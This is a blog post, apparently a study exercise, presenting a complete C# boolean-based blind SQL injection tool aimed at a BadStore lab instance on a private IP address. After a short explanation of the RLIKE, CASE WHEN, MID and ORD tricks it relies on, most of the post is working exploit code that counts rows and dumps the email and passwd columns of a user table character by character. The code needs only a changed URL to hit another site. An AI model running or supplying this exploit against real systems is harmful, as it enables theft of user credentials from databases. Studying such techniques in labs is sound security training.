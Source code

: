 ```yaml
---
title: Creating a Blind/Boolean based mutational fuzzer to dump the database.
date: 2021-06-12 11:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a Blind/Boolean based mutational fuzzer to dump the database.
---
```


## This Program is a Boolean-Based Blind mutational fuzzer that will use true/false questions in order to glean information 1 byte at a time.

_This exploit is more complicated than the UNION based sql fuzzer and requires much more time to retrieve the data._

- We use the:
  > `RLIKE function` to match values with a regular expression which can be used like an 'if-else' statement for true/false queries.
  
  > Couple "CASE WHEN" statements in the RLIKE function for the 'if-else' functionality.
  
  > `COUNT(*) function` to return an integer for the number of rows in a table.
  
  > `MID() function` returns a particular substring depending on the starting index and length to return.
  
  > `ORD() function` converts a given input into an integer equivalent for matching data.
- The `GetString() method` from the "Encoding.ASCII" class to convert the array of bytes returned into a human readable string.



### Code block:

```Csharp
using System;
using System.Net;
using System.Reflection;
using System.IO;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Text;

namespace Boolean_Blind_Sql_Injection
{
    class Program
    {
        static void Main(string[] args)
        {
            // Asks server for length of no of rows in userdb table
            int countLength = 1;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR), NULL)) FROM";
                getCountLength += " userdb)=" + countLength + ") THEN 0x28 ELSE 0x41 END))";
                getCountLength += " AND '";

                string response = MakeRequest(getCountLength);
                if (response.Contains("parentheses not balanced"))
                    break;
            }

            // Asks server for no of rows in userdb table
            List<byte> countBytes = new List<byte>();
            for (int i = 1; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
                    getCount += " IFNULL(CAST(COUNT(*) AS CHAR), NULL) FROM userdb),";
                    getCount += i + ", 1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND '";
                    string response = MakeRequest(getCount);

                    if (response.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }
                }
            }
            // Converts and prints no of rows
            int count = int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            Console.WriteLine("[+] No of rows in userdb: " + count);



            // Calling methods and printing values
            for (int row = 0; row < count; row++)
            {
                foreach (string column in new string[] { "email", "passwd" })
                {
                    Console.WriteLine("[!] Getting length of query value...");
                    int valLength = GetLength(row, column);
                    Console.WriteLine(valLength);

                    Console.WriteLine("[!] Getting value...");
                    string value = GetValue(row, column, valLength);
                    Console.WriteLine(value);
                }

            }

        }

        // Makes request and returns response
        private static string MakeRequest(string payload)
        {
            string url = "http://192.168.216.128/cgi-bin/badstore.cgi?action=search&searchquery=";
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url + payload);

            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            return response;
        }

        
        // Ask server for actual length of the value
        private static int GetLength(int row, string column)
        {
            // Retrieves length
            int countLength = 0;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(CHAR_LENGTH(" + column + ") AS";
                getCountLength += " CHAR),NULL)) FROM userdb ORDER BY email LIMIT ";
                getCountLength += row + ",1)=" + countLength + ") THEN 0x28 ELSE 0x41 END)) AND";
                getCountLength += " 'TiT'='TiT";
                string response = MakeRequest(getCountLength);

                if (response.Contains("parentheses not balanced"))
                    break;
             }

            // Retrieve length actual val
            List<byte> countBytes = new List<byte>();
            for (int i = 0; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    // Changed it to a single string as it was easier to debug
                    string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string resp = MakeRequest(getLength);
                    if (resp.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }                      
                }                    
            }
            if (countBytes.Count > 0)
                return int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            else
                return 0;  
        }

        // Ask server and retrieve a given value
        private static string GetValue(int row, string column, int length)
        {
            List<byte> valBytes = new List<byte>();
            for (int i = 0; i <= length; i++)
            {
                for (int c = 32; c <= 126; c++)
                {
                    string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(" + column + " AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string response = MakeRequest(getChar);
                    if (response.Contains("parentheses not balanced"))
                    {
                        valBytes.Add((byte)c);
                        break;
                    }
                }
            }
                return Encoding.ASCII.GetString(valBytes.ToArray());

        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/Boolean_blind_sql_fuzzer/boolean_blind_sql_fuzzer.png)
